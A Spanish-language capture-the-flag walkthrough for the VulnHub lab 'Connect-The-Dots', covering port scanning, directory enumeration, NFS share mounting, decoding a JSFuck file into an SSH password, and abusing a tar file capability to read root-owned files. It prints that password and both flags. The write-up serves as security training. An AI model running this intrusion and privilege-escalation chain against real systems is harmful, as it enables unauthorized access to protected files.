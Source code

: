 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Connect-The-Dots VulnHub

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

### Gobuster

Utilizamos esta herramienta para escanear el puerto 80...

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST>
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.195.131/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 299]
/.htpasswd            (Status: 403) [Size: 299]
/backups              (Status: 200) [Size: 6301]
/images               (Status: 301) [Size: 319] [--> http://192.168.195.131/images/]
/javascript           (Status: 301) [Size: 323] [--> http://192.168.195.131/javascript/]
/manual               (Status: 301) [Size: 319] [--> http://192.168.195.131/manual/]
/mysite               (Status: 301) [Size: 319] [--> http://192.168.195.131/mysite/]
/server-status        (Status: 403) [Size: 303]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

Encontramos que hay un servicio `mount` corriendo...

```shell
showmount -e <IP>
```

```shell
sudo mount -o nolock <IP>:<RUTA_ENCONTRADA> <NUESTRA_RUTA_DONDE_EXPORTARLO>
```

Si todo salio bien podremos ver toda la carpeta que se esta compartiendo en ese puerto...

Si nos vamos a la siguiente ruta `/mysite/` vemos que nos descarga un archivo CS que dentro contiene una codificacion en `JSFuck`

Si lo decodificamos...

```
alert("You're smart enough to understand me. Here's your secret, TryToGuessThisNorris@2k19")
```

Por lo que con esto nos conectaremos al ssh con esa contraseña con el usuario `norris`:

```shell
ssh norris@<IP> -p 7822
```

Leemos en la home de norris la primera flag:

> user.txt (flag1)

```
2c2836a138c0e7f7529aa0764a6414d0
```

### Escalada de privilegios

Si metemos el siguiente comando podremos ver lo que podemos hacer con nuestro usuario en las capabilities con permisos de root por asi decirlo...

```shell
/sbin/getcap -r / 2>/dev/null
```

Info:

```
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/tar = cap_dac_read_search+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/ping = cap_net_raw+ep
```

Por lo que vemos el binario `tar` tiene la capabilitie activada para que nosotros tambien lo podamos usar con los permisos de "root"

Si nos movemos en la carpeta `/tmp/` y creamos un enlace directo a la flag de root...

```shell
ln -s /root/root.txt
```

Y aprovechando el binario que puede hacer como "root"...

```shell
LFILE=root.txt
```

```shell
tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
```

Y con esto podremos leer la flag de root:

> root.txt (flag2)

```
8fc9376d961670ca10be270d52eda423
```
